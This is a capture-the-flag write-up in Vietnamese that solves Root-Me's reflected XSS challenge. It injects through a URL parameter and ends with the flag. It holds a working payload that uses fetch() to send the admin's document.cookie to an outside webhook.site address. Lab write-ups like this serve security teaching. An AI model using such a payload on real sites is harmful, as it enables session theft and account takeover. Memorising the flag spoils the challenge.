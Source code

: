 # XSS-Reflected
### Challenge
Link: http://challenge01.root-me.org/web-client/ch26/
### Solution
Đầu tiên, em kiểm tra các tính năng của trang web thì thấy ở trang `contact` có một form cho phép nhập thông tin.
Tuy nhiên lại có dòng:
>Like most businesses, nobody actually checks any of this feedback, but in order to look like we care, we have made a totally useless form you can fill out.`

Nghĩa là form này vô dụng. Em kiểm tra bằng cách nhập thông tin như sau:

![](https://i.imgur.com/j48yzGR.png)

Nhấn send thì không thấy có gì xảy ra, lại có đoạn 
>We have automatically printed out your feedback and burned it to provide our offices with warmth during the harsh Nordic winter
(seriously, nobody wants to read your rambling).`

Vậy nên form này vô dụng thật.
Để ý URL, em thấy có tham số `p` nhận giá trị là trang được truy cập tới. Thử thay đổi giá trị của `p` thì em được chuyển hướng tới trang sau:

![](https://i.imgur.com/CsdmpAT.png)

Thay đổi giá trị của `p` thành `' onclick='alert(1)` được URL encode thì được kết quả như sau:

![](https://i.imgur.com/qReFsgW.png)

Vậy ta có thể khai thác XSS từ đây.
Để lấy được cookie của admin, em fetch đến [Webhook](https://webhook.site/#!/16dfa276-986b-4d49-9ae0-8cca659780d1/a64570e2-7695-4bcc-ab94-fe084f9114b7/1) với payload `'autofocus onfocus='fetch(`https://webhook.site/16dfa276-986b-4d49-9ae0-8cca659780d1?cookie=${document.cookie}`)`

![](https://i.imgur.com/z7mwHeC.png)

Em đã chuyển hướng được đến trang [Webhook](https://webhook.site/#!/16dfa276-986b-4d49-9ae0-8cca659780d1/a64570e2-7695-4bcc-ab94-fe084f9114b7/1). Giờ em chỉ cần chọn`Report to administrator` rồi đợi kết quả từ Webhook.

![](https://i.imgur.com/RF3vLEQ.png)

### Flag
r3fL3ct3D_XsS_fTw
